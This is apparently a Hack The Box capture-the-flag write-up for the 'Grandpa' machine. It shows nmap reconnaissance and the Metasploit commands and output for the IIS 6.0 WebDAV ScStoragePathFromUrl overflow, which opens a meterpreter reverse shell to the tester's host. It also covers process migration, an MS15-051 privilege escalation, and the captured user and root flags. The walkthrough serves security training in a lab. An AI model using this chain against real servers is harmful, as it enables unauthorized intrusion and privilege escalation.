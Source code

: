# Grandpa
#### 10.10.10.14
###### Solved by: Dotaplayer365 and revdev


```{r, engine='bash', count_lines}
nmap -T4 -A -v 10.10.10.14

PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 6.0
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD COPY PROPFIND SEARCH LOCK UNLOCK DELETE PUT POST MOVE MKCOL PROPPATCH
|_  Potentially risky methods: TRACE COPY PROPFIND SEARCH LOCK UNLOCK DELETE PUT MOVE MKCOL PROPPATCH
|_http-server-header: Microsoft-IIS/6.0
|_http-title: Under Construction
| http-webdav-scan: 
|   Public Options: OPTIONS, TRACE, GET, HEAD, DELETE, PUT, POST, COPY, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK, SEARCH
|   Server Date: Thu, 19 Oct 2017 15:38:04 GMT
|   WebDAV type: Unkown
|   Server Type: Microsoft-IIS/6.0
|_  Allowed Methods: OPTIONS, TRACE, GET, HEAD, COPY, PROPFIND, SEARCH, LOCK, UNLOCK

```

The website shows "Under Construction"

![Alt test](https://github.com/netcatus/HTB-Writeups/blob/master/Grandpa/images/Website.PNG "Website")

We try visiting some webpages and we get something like this

![Alt test](https://github.com/netcatus/HTB-Writeups/blob/master/Grandpa/images/index.aspx.PNG "index.aspx")


Information we have so far:
* IIS 6.0

Searching exploits for IIS 6.0 

```{r, engine='bash', count_lines}
root@kali:~/Hackthebox/Machines/Grandpa# searchsploit IIS 6.0 | grep -v "5.0"
--------------------------------------------------------------- ----------------------------------
 Exploit Title                                                 |  Path
                                                               | (/usr/share/exploitdb/platforms/)
--------------------------------------------------------------- ----------------------------------
Microsoft IIS 6.0 - /AUX / '.aspx' Remote Denial of Service    | windows/dos/3965.pl
Microsoft IIS 6.0 - ASP Stack Overflow (Stack Exhaustion) Deni | windows/dos/15167.txt
Microsoft IIS 6.0 - WebDAV Remote Authentication Bypass (1)    | windows/remote/8704.txt
Microsoft IIS 6.0 - WebDAV Remote Authentication Bypass (Patch | windows/remote/8754.patch
Microsoft IIS 6.0 - WebDAV Remote Authentication Bypass (PHP)  | windows/remote/8765.php
Microsoft IIS 6.0 - WebDAV Remote Authentication Bypass (2)    | windows/remote/8806.pl
Microsoft IIS 6.0 / 7.5 (+ PHP) - Multiple Vulnerabilities     | windows/remote/19033.txt
Microsoft IIS 6.0 - WebDAV 'ScStoragePathFromUrl' Buffer Overf | windows/remote/41738.py
--------------------------------------------------------------- ----------------------------------
```

'ScStoragePathFromUrl' exploit :
>Buffer overflow in the ScStoragePathFromUrl function in the WebDAV service in Internet Information Services (IIS) 6.0 in Microsoft Windows Server 2003 R2 allows remote attackers to execute arbitrary code via a long header beginning with "If: <http://" in a PROPFIND request, as exploited in the wild in July or August 2016.

We already know from nmap that the PROPFIND request is supported. So it would'nt be a long shot to try this one out.

```{r, engine='bash', count_lines}
msf > search ScStoragePathFromUrl

Matching Modules
================

   Name                                                 Disclosure Date  Rank    Description
   ----                                                 ---------------  ----    -----------
   exploit/windows/iis/iis_webdav_scstoragepathfromurl  2017-03-26       manual   Microsoft IIS WebDav ScStoragePathFromUrl Overflow

```

_Perfect!_

So we would be using something like this

```{r, engine='bash', count_lines}
Module options (exploit/windows/iis/iis_webdav_scstoragepathfromurl):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   MAXPATHLENGTH  60               yes       End of physical path brute force
   MINPATHLENGTH  3                yes       Start of physical path brute force
   Proxies                         no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOST          10.10.10.14      yes       The target address
   RPORT          80               yes       The target port (TCP)
   SSL            false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI      /                yes       Path of IIS 6 web application
   VHOST                           no        HTTP server virtual host


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     10.10.14.248     yes       The listen address
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Microsoft Windows Server 2003 R2 SP2 x86
```

And there you have it!!

Easier than expected
```{r, engine='bash', count_lines}
msf exploit(iis_webdav_scstoragepathfromurl) > exploit
[*] Started reverse TCP handler on 10.10.14.248:4444 
[*] Sending stage (171583 bytes) to 10.10.10.14
[*] Meterpreter session 1 opened (10.10.14.248:4444 -> 10.10.10.14:1036) at 2017-10-15 23:25:52 +0530
meterpreter > 
```

When we try to go into the users directory, it gives us "Access Denied"

Looks like Priv esc should give us both the flags.

Time to go huntin.


After some enumeration we see that there are a couple of processes running under NT AUTHORITY 

```{r, engine='bash', count_lines}
meterpreter > ps

Process List
============

 PID   PPID  Name              Arch  Session  User                          Path
 ---   ----  ----              ----  -------  ----                          ----
...                                                  
 1172  388   inetinfo.exe                                                   
 1212  388   svchost.exe                                                    
 1436  1500  w3wp.exe          x86   0        NT AUTHORITY\NETWORK SERVICE  c:\windows\system32\inetsrv\w3wp.exe
 1500  388   svchost.exe                                                    
 1588  388   svchost.exe                                                    
 1668  1752  rundll32.exe      x86   0                                      C:\WINDOWS\system32\rundll32.exe
 1672  388   alg.exe                                                        
 1820  588   davcdata.exe      x86   0        NT AUTHORITY\NETWORK SERVICE  C:\WINDOWS\system32\inetsrv\davcdata.exe
 1992  1436  rundll32.exe      x86   0                                      C:\WINDOWS\system32\rundll32.exe
...                                            
```

Lets migrate into that process

```{r, engine='bash', count_lines}
meterpreter > migrate 1820
[*] Migrating from 1668 to 1820...
[*] Migration completed successfully.
```

We still get Access Denied, Time to use the exploit suggester

```
[+] 10.10.10.14 - exploit/windows/local/ms14_058_track_popup_menu: The target appears to be vulnerable.
[+] 10.10.10.14 - exploit/windows/local/ms14_070_tcpip_ioctl: The target appears to be vulnerable.
[+] 10.10.10.14 - exploit/windows/local/ms15_051_client_copy_image: The target appears to be vulnerable.
[+] 10.10.10.14 - exploit/windows/local/ms16_016_webdav: The target service is running, but could not be validated.
[+] 10.10.10.14 - exploit/windows/local/ms16_032_secondary_logon_handle_privesc: The target service is running, but could not be validated.
[+] 10.10.10.14 - exploit/windows/local/ppr_flatten_rec: The target appears to be vulnerable.
```

After trying a few of the suggested exploits, this one worked
```{r, engine='bash', count_lines}
msf exploit(ms15_051_client_copy_image) > show options

Module options (exploit/windows/local/ms15_051_client_copy_image):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SESSION  1                yes       The session to run this module on.


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     10.10.14.248     yes       The listen address
   LPORT     4443             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows x86
   
   
msf exploit(ms15_051_client_copy_image) > exploit

[*] Started reverse TCP handler on 10.10.14.248:4443 
[*] Launching notepad to host the exploit...
[+] Process 2564 launched.
[*] Reflectively injecting the exploit DLL into 2564...
[*] Injecting exploit into 2564...
[*] Exploit injected. Injecting payload into 2564...
[*] Payload injected. Executing exploit...
[+] Exploit finished, wait for (hopefully privileged) payload execution to complete.
[*] Sending stage (171583 bytes) to 10.10.10.14
[*] Meterpreter session 2 opened (10.10.14.248:4443 -> 10.10.10.14:1041) at 2017-10-15 23:36:44 +0530
meterpreter > 
```

**user.txt**
```{r, engine='bash', count_lines}
C:\Documents and Settings\Harry\Desktop>type user.txt
type user.txt
bdff5ec67c3cff017f2bedc146a5d869
```


**root.txt**
```{r, engine='bash', count_lines}
C:\Documents and Settings\Administrator\Desktop>type root.txt
type root.txt
9359e905a2c35f861f6a57cecf28bb7b
```

